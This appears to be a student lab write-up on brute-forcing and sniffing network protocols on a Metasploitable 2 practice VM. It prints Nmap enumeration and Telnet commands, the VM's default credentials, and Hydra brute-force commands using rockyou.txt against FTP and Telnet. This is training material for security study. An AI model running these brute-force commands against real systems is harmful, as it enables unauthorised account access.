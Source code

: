 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective
The goal of this lab is to explore the vulnerabilities of common network protocols (FTP, TELNET, SSH, HTTP) by performing brute force attacks to recover passwords and then using those credentials to sniff network traffic. Will also analyze the security of these protocols and propose mitigation strategies.

---

## 🛠️ Tools Used

- Kali Linux
- Metasploitable 2
- Nmap
- Hydra

---

## 🔍 Lab Tasks

### 1. Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
- Document the usernames found.

#### 🔧 Steps Taken:

- Performed a port scan using Nmap:
  ```
  nmap -sV -p 21,23,22,80 [target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/2c34570b-4073-4b21-82e7-e24b5da34909)

- Connected manually to Telnet to observe any information:
  ```
  telnet [target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/3c80d78e-9904-4c9d-a4ab-e29bcb667df0)
  > Here we got username and password is ```msfadmin:msfadmin```. Bare in mind, often we not get the credential as easy as this.


---
### 2.  Perform Brute Force Attacks
#### 2.1. FTP, TELNET, and SSH
- Use Hydra perform brute force attacks against the following protocols:
- FTP
  ```
  hydra -L rockyou.txt -P rockyou.txt ftp://[target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/136b15fc-d644-4f87-b0c3-ba123adb8c57)
  
- TELNET
  ```
  hydra -L rockyou.txt -P rockyou.txt telnet://[target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/5ba8dca6-6fd2-48b3-86a8-adedb3d78b46)



